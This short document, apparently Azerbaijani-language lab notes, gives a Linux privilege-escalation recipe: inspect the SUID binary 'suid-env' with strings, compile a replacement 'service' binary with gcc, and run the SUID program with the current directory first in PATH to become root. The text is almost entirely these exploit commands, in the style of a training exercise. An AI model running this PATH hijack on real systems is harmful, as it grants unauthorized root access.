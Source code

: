 ## eger biz suid icazelerine baxarken suid-env gormusukse
    strings /usr/local/bin/suid-env
## daha sonra gcc ile emri runlayiriq 
    gcc -o service /home/user/tools/suid/service.c
## ve PATH a /usr/local/bin elave edirik
    PATH=.:$PATH /usr/local/bin/suid-env
## ve artiq ROOTSAN


